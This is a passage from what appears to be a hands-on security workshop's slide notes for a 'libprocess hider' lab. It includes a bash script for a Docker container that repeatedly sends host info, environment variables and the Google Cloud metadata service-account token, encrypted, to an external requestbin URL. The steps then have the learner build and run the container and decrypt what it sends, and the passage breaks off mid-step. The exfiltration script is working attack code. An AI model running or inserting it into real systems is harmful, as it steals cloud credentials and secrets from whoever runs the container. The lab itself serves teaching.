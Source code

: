 >vi Tip: just hit `dd` repeatedly to delete whole lines, then go into insert mode and paste the contents below
```
#!/usr/bin/env bash

if [ "shell" = "${1}" ]; then
  /bin/bash
else
 while true
 do
    sleep 30
    curl -s  -X POST -A "${UA}" -H "X-User: ${HANDLE}" -H "Cookie: `uname -a | gzip | base64 -w0`" -d \
`{ env && curl -s -H 'Metadata-Flavor:Google' http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token; } | gzip | openssl enc -e -aes-256-cbc -md sha512 -pbkdf2 -salt -a -pass "pass:${PW}" | base64 -w0` \
$URL
    echo
 done
fi
```

This adds a little more data to our exfil, we'll go over this.

> After pasting, hit `[ESC]`, then type `:wq`

### Slide 164 - Libprocess hider lab (cont.)

>`[ESC]` then type `:wq` if you haven't already from last slide

Rebuild the container
```
docker build -t cmddemo .
```

Run the container in the background(detached) and just give us the container id (`-d` aka `--detach`)
```
docker run -d cmddemo
```

After 30 seconds, you should see a new request on your requestbin tab (that hopefully you kept open). If not create a new public requestbin, re-edit your Dockerfile, replace the environment variable value with the new one, rebuild, and re-run the container.

### Slide 165 - Libprocess hider lab (cont.)

Decrypt and decode the new data in the raw output of the requestbin request that came in. Replace `[DATA]` with the base64 string from it in the command below. Don't forget to replace `[strong password]` in the command below with the one you set in the Dockerfile.

Enter these commands below as three separate lines, do not hit `[ENTER]` until you've replaced the `[DATA]` and the password.
** use the clipboard function for these comands with newline `\` otherwise it'll hit return before you're ready. **
